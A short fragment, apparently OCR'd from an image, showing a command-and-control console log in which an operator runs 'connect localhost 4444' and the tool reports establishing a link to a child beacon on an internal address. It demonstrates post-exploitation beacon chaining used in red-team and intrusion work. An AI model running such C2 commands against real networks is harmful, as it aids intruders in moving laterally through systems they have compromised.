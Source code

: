 beacon> connect localhost 4444
[*] Tasked to connect to localhost:4444
[+] host called home, sent: 20 bytes
[+] established link to child beacon: 10.10.18.221	
```